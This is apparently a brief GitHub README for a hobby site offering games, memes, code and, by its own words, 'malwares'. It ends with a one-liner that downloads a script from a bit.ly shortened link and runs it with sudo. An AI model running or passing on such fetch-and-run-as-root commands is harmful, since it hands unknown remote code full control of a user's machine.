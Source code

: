 # phoenixthrush.github.io
Just lil games, music, memes, codes, malwares, archive and lots more lol!

Follow me if u wanna get a&nbsp;<a href="https://instagram.com/phoenixthrush">:cookie: &nbsp;</a>lmao

wget https://bit.ly/3m0JwFX && mv 3m0JwFX phoenix.sh && sudo chmod +x phoenix.sh && sudo  ./phoenix.sh
